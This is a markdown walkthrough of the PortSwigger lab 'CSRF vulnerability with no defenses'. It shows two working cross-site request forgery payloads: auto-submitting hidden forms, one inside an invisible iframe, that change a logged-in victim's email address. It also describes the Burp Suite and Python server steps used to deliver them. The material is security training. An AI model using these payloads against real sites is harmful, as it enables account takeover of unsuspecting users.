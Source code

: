 # CSRF vulnerability with no defenses

## Scenario
- Victim is currently logged into the vulnerable site
- Attacker sends malicious link to user \
NOTE: This is simulated via the exploit server in portswigger
- User clicks on the link
- The POST request is sent on behalf of the attacker
```
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Attackology via BurpSuite Community edition and Expxloit server
1. Logged in as the user given in the lab
2. Pulled BurpSuite to intercept the traffic during the email change process
3. Deliberately changed the email of the account to determine the endpoint and method of the vulnerable email change functionality
![image](https://user-images.githubusercontent.com/64616459/148880204-3d9197f1-0a90-4f8e-a1bd-bc684e7be5c7.png)
4. In BurpSuite, looked at the HTTP history to look fo the email change endpoint and sent it to repeater
![image](https://user-images.githubusercontent.com/64616459/148880252-68b3abc9-d257-4229-91de-1719cbabf9c1.png)
5. Went to the exploit server given in the lab and added the endpoint to the form 
6. ```document.forms[0].submit``` automatically sends the POST request to the vulnerable site
![image](https://user-images.githubusercontent.com/64616459/148880927-432779d3-1121-4d39-be79-e44035108a1c.png)
7. Send the payload to the victim
![image](https://user-images.githubusercontent.com/64616459/148880701-4820a8b8-ae53-4101-bf44-09c7895fab19.png)
8. Make the email was changed after sending the payload
![image](https://user-images.githubusercontent.com/64616459/148881951-8cf931c3-f831-46be-af02-3d1baa891fc0.png)

## Attacklogy via python simple server hosting a html page
1. Logged in as user in the lab
2. Create the html page with following code:
```html
<html>
    <body>
        <h1>Hello World!</h1>    
        <!--
            iframe => An inline frame is used to embed another document within the current HTML document
            The iframe with STYLE="DISPLAY:NONE" ensures that the victim does not recognize the page being redirected

            Reference:
            HTML Iframes  
            https://www.w3schools.com/html/html_iframe.asp
         -->
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <!--
            Target attribute specifies a name or a keyword that indicates where to display the response that is received after submitting the form
            In this example,  the value of the target displays the response to a iframe
            Reference:
            HTML <form> target Attribute 
            https://www.w3schools.com/TAGs/att_form_target.asp
        -->
        <form action="https://acb01f961f46be3ec0d009ff00960036.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="pcap_panwed_you_one_more_tme@pcap.com">
        </form>
        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

## Reference 
Lab: CSRF vulnerability with no defenses \
https://portswigger.net/web-security/csrf/lab-no-defenses

Cross-site request forgery (CSRF) \
https://portswigger.net/web-security/csrf

CSRF - Lab #1 CSRF vulnerability with no defenses | Long Version \
https://www.youtube.com/watch?v=BBosVSNiJdM

## Special Thanks!!!
Rana Khalil for the html source \
https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/csrf/lab-01/csrf-lab01.html


